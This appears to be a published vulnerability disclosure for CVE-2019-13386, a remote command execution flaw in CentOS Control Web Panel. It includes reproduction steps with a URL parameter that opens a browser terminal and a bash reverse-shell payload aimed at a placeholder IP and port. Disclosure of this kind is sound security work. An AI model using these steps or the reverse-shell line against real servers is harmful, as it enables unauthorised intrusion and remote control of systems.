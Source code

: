 # Information

```
# Exploit Title: CWP (CentOS Control Web Panel) 0.9.8.836 - Remote Command Execution
# Date: 6 July 2019
# Exploit Author: Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
# Vendor Homepage: https://control-webpanel.com/
# Software Link: Not available, user panel only available for lastest version
# Version: 0.9.8.836
# Tested on: CentOS 7.6.1810 (Core)
# CVE : CVE-2019-13386
```

# Description

From the application interface, it does not allow user to run OS commands directly. If user want to run OS commands, they need to do it through crontab function. The vulnerability allows users to executed OS commands directly through web browser.

#  Steps to Reproduce

1. Login into the CentOS Web Panel using user credential

<kbd>![](_resources/CVE-2019-13386.md/2019-07-23-15-40-04.png)</kbd>

<br>

2. Add "?action=9" on url , bash terminal will show then users can run OS commands through web browser
``` 
Example: https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/username/fileManager2.php?action=9
```
<kbd>![](_resources/CVE-2019-13386.md/2019-07-23-16-31-38.png)</kbd>

<br>

3. Create reverse shell through OS commands 
``` 
Reverse shell payload "bash -i >& /dev/tcp/[local IP Address]/[port] 0>&1"
``` 
<kbd>![](_resources/CVE-2019-13386.md/2019-07-23-16-34-16.png)</kbd>


#  Timeline

```
2019-07-05: Discovered the bug
2019-07-05: Reported to vendor
2019-07-05: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-23: Published
```